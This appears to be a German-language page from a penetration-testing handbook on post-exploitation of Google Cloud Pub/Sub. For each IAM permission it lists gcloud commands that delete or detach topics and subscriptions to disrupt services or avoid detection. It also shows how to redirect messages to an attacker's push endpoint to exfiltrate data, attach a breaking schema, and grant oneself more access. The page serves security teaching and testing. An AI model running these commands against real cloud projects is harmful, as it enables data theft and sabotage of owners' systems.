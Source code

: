 # GCP - Pub/Sub Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Pub/Sub

Für weitere Informationen zu Pub/Sub siehe die folgende Seite:

{{#ref}}
../gcp-services/gcp-pub-sub.md
{{#endref}}

### `pubsub.topics.publish`

Veröffentlichen Sie eine Nachricht in einem Thema, nützlich, um **unerwartete Daten** zu senden und unerwartete Funktionen auszulösen oder Schwachstellen auszunutzen:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Nützlich, um zu verhindern, dass ein Abonnement Nachrichten empfängt, möglicherweise um eine Entdeckung zu vermeiden.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Nützlich, um zu verhindern, dass ein Abonnement Nachrichten empfängt, möglicherweise um eine Entdeckung zu vermeiden.\
Es ist möglich, ein Thema zu löschen, selbst wenn Abonnements daran angehängt sind.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Verwenden Sie diese Berechtigung, um einige Einstellungen des Themas zu aktualisieren, um es zu stören, wie `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Geben Sie sich die Berechtigung, um einen der vorherigen Angriffe durchzuführen.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Holen Sie sich alle Nachrichten in einem Webserver:
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
Erstellen Sie ein Abonnement und verwenden Sie es, um **Nachrichten abzurufen**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Das Löschen eines Abonnements** könnte nützlich sein, um ein Protokollverarbeitungssystem oder etwas Ähnliches zu stören:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Verwenden Sie diese Berechtigung, um einige Einstellungen zu aktualisieren, damit Nachrichten an einem Ort gespeichert werden, auf den Sie zugreifen können (URL, Big Query-Tabelle, Bucket) oder um sie einfach zu stören.
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
### `pubsub.subscriptions.setIamPolicy`

Geben Sie sich die erforderlichen Berechtigungen, um eine der zuvor kommentierten Angriffe durchzuführen.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Greifen Sie auf ein Schema zu einem Thema zu, sodass die Nachrichten es nicht erfüllen und das Thema daher gestört wird.\
Wenn es keine Schemas gibt, müssen Sie möglicherweise eines erstellen.
```json:schema.json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```

```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Das mag wie das Löschen eines Schemas aussehen, aber Sie werden in der Lage sein, Nachrichten zu senden, die nicht mit dem Schema übereinstimmen. Da das Schema jedoch gelöscht wird, wird keine Nachricht tatsächlich in das Thema eingehen. Das ist also **NUTZLOS**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Geben Sie sich die erforderlichen Berechtigungen, um eine der zuvor kommentierten Angriffe durchzuführen.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Dies wird einen Snapshot aller unbestätigten Nachrichten erstellen und sie zurück zum Abonnement bringen. Für einen Angreifer nicht sehr nützlich, aber hier ist es:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{{#include ../../../banners/hacktricks-training.md}}
